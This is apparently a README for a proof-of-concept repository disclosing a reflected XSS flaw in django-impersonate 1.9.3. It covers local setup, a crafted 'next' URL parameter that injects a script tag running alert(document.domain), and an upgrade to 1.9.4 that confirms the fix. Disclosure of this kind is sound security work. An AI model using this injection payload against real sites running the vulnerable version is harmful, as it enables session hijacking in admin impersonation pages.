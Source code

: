 # Proof of concept for a XSS vulnerability in django-impersonate 1.9.3

You can read the full post [here](https://stsewd.dev/posts/xss-in-djang-impersonate-and-django-gravatar2/).

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-impersonate
$ cd poc-xss-django-impersonate
$ uv run manage.py migrate
# Create a user to log into the application.
$ uv run manage.py createsuperuser
$ uv run manage.py runserver
```

## Proof of concept

- Go to `http://127.0.0.1:8000/admin/login/`
- Log in with the user you created
- Go to `http://127.0.0.1:8000/impersonate/search/?next=?next="><script>alert(document.domain)</script><input type="hidden`
- A popup with the domain of the page should appear

Try updating the project to use django-impersonate 1.9.4, and repeat the steps to see that the vulnerability is fixed.

```bash
$ uv add django-impersonate==1.9.4
```
